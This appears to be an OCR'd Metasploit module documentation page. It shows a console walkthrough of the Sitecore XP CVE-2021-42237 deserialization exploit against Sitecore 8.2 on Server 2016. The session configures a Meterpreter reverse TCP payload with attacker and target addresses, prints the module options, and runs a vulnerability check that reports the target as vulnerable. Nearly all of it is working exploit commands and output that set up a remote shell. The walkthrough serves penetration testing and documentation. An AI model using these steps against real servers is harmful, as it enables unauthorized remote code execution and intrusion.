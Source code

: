
## Options

## Scenarios

### Sitecore 8.2 rev. 180406 on Server 2016 - PowerShell Stager

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/sitecore_xp_cve_2021_42237
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set LHOST 172.20.223.94
LHOST => 172.20.223.94
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set RHOSTS 172.20.211.198
RHOSTS => 172.20.211.198
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > set VHOST NewInstance1
VHOST => NewInstance1
msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > show options

Module options (exploit/windows/http/sitecore_xp_cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, proces
                                        s, none)
   LHOST     172.20.223.94    yes       The listen address (an interface may be specified
                                        )
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf6 exploit(windows/http/sitecore_xp_cve_2021_42237) > check
[*] 172.20.211.198:80 - The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
```